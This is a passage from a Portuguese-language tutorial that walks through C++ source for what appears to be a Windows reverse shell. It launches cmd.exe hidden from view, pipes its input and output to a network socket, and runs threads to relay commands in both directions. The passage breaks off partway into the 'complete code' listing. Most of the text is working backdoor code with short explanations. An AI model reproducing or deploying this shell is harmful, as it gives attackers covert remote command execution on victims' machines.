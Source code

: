 ```cpp
STARTUPINFO si = { 0 };
PROCESS_INFORMATION pi = { 0 };
si.cb = sizeof(si);
si.dwFlags = STARTF_USESTDHANDLES;
si.hStdInput = hStdinRead;
si.hStdOutput = hStdoutWrite;
si.hStdError = hStdoutWrite;

LPWSTR cmd = charToLPWSTR("cmd.exe");

if (!CreateProcess(NULL, cmd, NULL, NULL, TRUE, CREATE_NO_WINDOW, NULL, NULL, &si, &pi)) {
    fprintf(stderr, "Falha ao criar o processo cmd.exe: %d\n", GetLastError());
    closesocket(sock);
    WSACleanup();
    free(cmd);
    return 1;
}

free(cmd);
```

O processo `cmd.exe` é iniciado invisível, e suas entradas e saídas estão agora conectadas aos nossos pipes.
## Threads para Comunicação Bidirecional

```cpp
ThreadParams readParams = { hStdoutRead, sock };
ThreadParams writeParams = { hStdinWrite, sock };

_beginthreadex(NULL, 0, &ReadFromCmd, &readParams, 0, NULL);
_beginthreadex(NULL, 0, &WriteToCmd, &writeParams, 0, NULL);

WaitForSingleObject(pi.hProcess, INFINITE);
```

E aqui, as **threads** são criadas para gerenciar o envio e recebimento de dados, e o programa espera até que o processo `cmd.exe` seja finalizado.
## Código completo

```cpp
#include <winsock2.h>
#include <windows.h>
#include <ws2tcpip.h>
#include <stdio.h>
#include <stdlib.h>
#include <process.h>
#include <string>

#pragma comment(lib, "ws2_32.lib")

LPWSTR charToLPWSTR(const std::string& str) {
    int len = MultiByteToWideChar(CP_ACP, 0, str.c_str(), -1, NULL, 0);
    LPWSTR wString = (LPWSTR)malloc(len * sizeof(wchar_t));
    if (wString != NULL) {
        MultiByteToWideChar(CP_ACP, 0, str.c_str(), -1, wString, len);
    }
    return wString;
}

struct ThreadParams {
    HANDLE hPipe;
    SOCKET sock;
};
```